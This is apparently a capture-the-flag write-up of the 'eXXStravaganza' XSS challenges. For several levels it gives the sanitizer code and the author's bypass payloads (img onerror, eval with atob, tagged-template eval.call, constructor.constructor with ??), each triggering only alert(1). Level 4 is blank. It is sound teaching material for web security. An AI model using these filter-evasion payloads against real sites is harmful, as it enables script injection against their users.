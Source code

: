 
# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)
![](./images/xss1.png)

# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `<img>` tag :
```html
<img/src=x onerror=alert(1)>
```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4



# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\
![](./images/xss2.png)
`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```

(Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )


